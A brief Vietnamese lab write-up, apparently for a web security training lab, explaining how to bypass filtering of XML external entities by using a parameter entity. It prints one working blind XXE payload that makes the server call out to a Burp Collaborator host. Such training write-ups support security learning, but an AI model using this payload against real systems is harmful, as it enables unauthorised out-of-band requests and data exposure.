 ## Blind XXE with out-of-band interaction via XML parameter entities

1. Theo như mô tả, lab này sẽ triển khai các biện pháp validation đầu vào và block các XML external entity hay dùng. Thay vào đó sử dụng XML parameter entity để có thể tham chiếu trục tiếp trong DTD.
- Payload: ```<!DOCTYPE test [<!ENTITY % xxe SYSTEM "http://cl15phxjuc2mwtrtrc42pdodp4vujj.burpcollaborator.net"> %xxe; ]>```

![Img1](\asset/../img/done.png)